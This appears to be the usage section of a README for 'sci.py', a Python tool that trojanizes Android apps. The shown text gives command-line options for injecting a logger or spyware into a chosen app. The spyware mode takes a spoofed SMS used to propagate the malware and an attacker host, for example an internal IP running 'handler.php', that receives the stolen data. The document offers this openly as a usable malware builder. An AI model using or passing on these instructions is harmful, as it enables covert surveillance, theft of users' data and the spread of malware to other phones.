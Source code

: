 #### Search usage:
```
 $ python3 sci.py -a APP search

 -a APP, --app APP   Android application to trojanize
```

#### Payload usage:
```
 $ python3 sci.py -a APP payload [-d DESTINATION] [-k KEYWORDS] {logger,spyware}

 -a APP, --app APP   Android application to trojanize
 -d DESTINATION, --dest DESTINATION
                     the destination file or directoy for injection
 -k KEYWORDS, --keywords KEYWORDS
                     keywords (separated by ',') for injection filtering

 positional arguments:
     logger          logger command
     spyware         spyware command
```

##### Logger usage:
```
 $ python3 sci.py -a APP [-d DESTINATION] [-k KEYWORDS] logger

 -a APP, --app APP   Android application to trojanize
 -d DESTINATION, --dest DESTINATION
                     the destination file or directoy for injection
 -k KEYWORDS, --keywords KEYWORDS
                     keywords (separated by ',') for injection filtering
```

Launch the Android debugger *adb* using the following command to view application's runtime method calls:
```
$ adb logcat | grep "::trace"
```

##### Spyware usage:
```
 $ sci.py -a APP payload [-d DESTINATION] [-k KEYWORDS] spyware [-h] -ppg PROPAGATE -rh RHOST

 -a APP, --app APP   Android application to trojanize
 -d DESTINATION, --dest DESTINATION
                     the destination file or directoy for injection
 -k KEYWORDS, --keywords KEYWORDS
                     keywords (separated by ',') for injection filtering
 -ppg PROPAGATE, --propagate PROPAGATE
                     spoofed SMS to send for the malware propagation
 -rh RHOST, --rhost RHOST
                     attacker's host/ip for stolen data transmission, e.g.
                     http://192.168.0.24/handler.php
```
